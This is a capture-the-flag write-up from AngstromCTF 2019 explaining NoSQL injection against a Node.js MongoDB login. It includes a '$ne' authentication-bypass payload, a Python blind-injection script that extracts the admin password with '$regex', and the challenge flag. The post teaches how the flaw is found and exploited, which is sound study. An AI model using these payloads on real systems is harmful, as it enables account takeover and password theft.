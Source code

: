 ```yaml
---
layout: post
asset: "/assets/posts/angstromctf2019/"
title: "AngstromCTF2019: No Sequels 1 && 2"
date: 2019-04-26 16:09:43 +1000
categories: [writeup, web]
tags: [ctf, 2019, angstrom, web]
author: Morgaine Timms
license: CC-BY-4.0
thumbnail: 
thumbnailAttr: 
thumbnailAttrUrl: 
thumbnailAlt: 
published: true
toc: false
description: "MongoDB query selectors and blind injection"
excerpt_separator: <!--more-->
---
```


AngstromCTF2019: No Sequels 1 && 2
===================================

The Challenge
-------------

Two parts, 130pts total.

Part 1

> No Sequels
> Web
> 50
>
> The prequels sucked, and the sequels aren't much better, but at least we always have the original trilogy.
>
> Author: SirIan
>
> link: https://nosequels.2019.chall.actf.co/


Part 2

> No Sequels 2
> Web
> 80
>
> This is the sequel to No Sequels. You'll see the challenge page once you solve the first one.
>
> Author: SirIan

<!--more-->

The Solution
------------

### PART 1

The linked page is a simple login screen, with a snippet of NodeJS code for the `POST /login` route provided

![]({{ page.asset }}12DA5BC3247B3F2A6992F3B3578EFA61.jpg)

```js
router.post('/login', verifyJwt, function (req, res) {
    // monk instance
    var db = req.db;

    var user = req.body.username;
    var pass = req.body.password;

    if (!user || !pass){
        res.send("One or more fields were not provided.");
    }
    var query = {
        username: user,
        password: pass
    }

    db.collection('users').findOne(query, function (err, user) {
        if (!user){
            res.send("Wrong username or password");
            return
        }

        res.cookie('token', jwt.sign({name: user.username, authenticated: true}, secret));
        res.redirect("/site");
    });
});
```

In the code, the POST body parameters `​username`​ and `​password`​ are passed directly to a database without sanitisation. This is probably an injection point.

The syntax used (`​db.collection('users').findOne(…`​) looks like mongodb, and the reference to a "monk instance" confirms this.

Using [a list of NoSQL payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) we can get issued an authenticated JWT with the following payload. This should result in authentication as the first available user record.

```js
{
    "username": {"$ne": null},
    "password": {"$ne": null}
}
```

The server dutifully responds with a user token and redirects.

![]({{ page.asset }}DE79BE2C31825AB331C6C0D7FE131406.png)

### PART 2

The authenticated page at `GET /site` provides the name of the admin user object in the database, and the code snippet for the POST route

```js
router.post('/site', verifyJwt, function (req, res) {
    // req.user is assigned from verifyJwt
    if (!req.user.authenticated || !req.body.pass2) {
        res.send("bad");
    }
 
    var query = {
        username: req.user.name,
    }
 
    var db = req.db;
    db.collection('users').findOne(query, function (err, user) {
        console.log(user);
        if (!user){
            res.render('access', {username:' \''+req.user.name+'\' ', message:"Only user 'admin' can log in with this form!"});
        }
        var pass = user.password;
        var message = "";
        if (pass === req.body.pass2){
            res.render('final');
        } else {
            res.render('access', {username:' \''+req.user.name+'\' ', message:"Wrong LOL!"});
        }
 
    });
 
});
```

The next flag requires acquisition of the password for user ‘admin’.

In part 1 [mongodb query selectors](https://docs.mongodb.com/manual/reference/operator/query/) were used for *both* the user and password parameters provided to `POST /login`.

Now that the target username is known, it will be possible to reconstruct the password with a Blind NoSQL injection on the password field.

[This script from github](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) is more than sufficient. It uses the regex query selector to build the password one character at a time.

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="https://nosequels.2019.chall.actf.co/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False)
            if 'OK' in r.text:
                print("Found one more char : %s" % (password+c))
                password += c
```

After retrieving the password (“congratsyouwin”) it is possible to log in to the page in part 2 and get the flag: `act{still_no_sql_in_the_sequel}`

![]({{ page.asset }}67AF52332EB7EAD9D19748723F833B1B.png)
